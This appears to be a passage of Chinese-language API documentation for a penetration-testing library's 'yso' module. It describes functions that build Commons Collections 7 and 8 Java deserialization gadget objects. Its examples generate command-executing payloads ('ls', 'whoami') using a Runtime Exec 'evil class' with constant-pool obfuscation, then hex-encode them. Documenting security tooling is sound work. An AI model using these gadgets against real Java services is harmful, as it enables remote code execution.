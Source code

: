 #### 详细描述
GetCommonsCollections7JavaObject 基于Commons Collections 7 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := "ls" // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollections7JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollections7JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections8JavaObject

#### 详细描述
GetCommonsCollections8JavaObject 基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsCollections8JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
